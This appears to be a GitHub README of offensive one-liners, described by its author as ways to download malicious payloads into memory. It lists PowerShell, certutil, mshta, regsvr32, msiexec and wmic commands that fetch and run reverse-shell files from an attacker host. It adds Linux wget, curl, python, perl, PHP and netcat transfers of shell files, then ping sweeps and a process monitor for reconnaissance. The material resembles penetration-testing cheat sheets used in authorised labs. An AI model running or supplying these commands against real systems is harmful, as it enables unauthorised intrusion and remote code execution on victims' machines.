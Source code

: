 # One-Liners-Handy-Scripts
Simple One-Liners to download malicious payloads into memory & handy scripts 


Windows One-Liners to Download Remote Payloads:

Powershell:
```
powershell "IEX( IWR http://10.10.10.10:9999 -UseBasicParsing)"

powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:9999/test.bat'))
```

Certutil:
```
certutil -urlcache -f http://10.10.10.10:9999/shell.exe shell.exe
```

Mshta:
```
mshta http://10.10.10.10:9999/rev.hta
mshta vbscript:Close(Execute("GetObject(""script:http://10.10.10.10:9999/rev.sct"")"))
```

Regsvr32:
```
regsvr32 /s /n /u /i:http://10.10.10.10:9999/rev.sct scrobj.dll
```

Msiexec:
```
msiexec /q /i http://10.10.10.10:9999/rev.msi
```

Wmic:
```
wmic os get /FORMAT:"http://10.10.10.10:9999/rev.xsl"
```

File Transfers (Linux)

Wget:
```
wget http://10.10.10.10:9999/file.sh -O /tmp/file.sh
```
Curl:
```
curl http://10.10.10.10:9999/file.sh -o /tmp/file.sh
```
Python
```
python -c "import urllib; f = urllib.URLopener(); f.retrieve('http://10.10.10.10:9999/rev.exe', '/tmp/rev.exe');"
```
Perl
```
perl -e 'use File::Fetch; my $ff=File::Fetch->new(uri => "http://10.10.10.10:9999/rev.sh"); my $file = $ff->fetch() or die $ff->error;'
```
PHP
```
echo "<?php file_put_contents('nameOfFile', fopen('http://10.10.10.10:9999/shell.php', 'r')); ?>" > shell.php
```
Netcat:
```
Victim: nc -l -p 4444 > file.sh
Attacker: nc -w 3 10.10.10.20 4444 < file.sh
```
FreeBSD:
```
fetch 10.10.10.10:9999/shell.py
```

Handy Scripts:

Monitor processes in real-time *Thanx to Ippsec 
```
#!/bin/bash

IFS=$'\n'
old_process=$(ps -eo command)

while true; do
  new_process=$(ps -eo command)
  diff <(echo "$old_process") <(echo "$new_process") |grep [\<\>]
  sleep 1
  old_process=$new_process
done
```
Ping Sweeps

Linux
```
for i in {1..254}; do ping -c 1 -W 1 10.10.10.$i | grep 'from'; done
```
Windows
```
1..254 | % {"10.10.10.$($_): $(Test-Connection -count 1 -comp 10.10.10.$($_) -quiet)"}
```
Python
```
#!/usr/bin/python
import multiprocessing, subprocess, os
def pinger( job_q, results_q ):
    DEVNULL = open(os.devnull,'w')
    while True:
        ip = job_q.get()
        if ip is None: break
        try:
            subprocess.check_call(['ping','-c1',ip],stdout=DEVNULL)
            results_q.put(ip)
        except:
            pass

if __name__ == '__main__':
    pool_size = 255
    jobs = multiprocessing.Queue()
    results = multiprocessing.Queue()
    pool = [ multiprocessing.Process(target=pinger, args=(jobs,results)) for i in range(pool_size) ]
    for p in pool:
        p.start()

    for i in range(1,255):
        jobs.put('10.10.10.{0}'.format(i))

    for p in pool:
        jobs.put(None)

    for p in pool:
        p.join()

    while not results.empty():
        ip = results.get()
        print(ip)
```

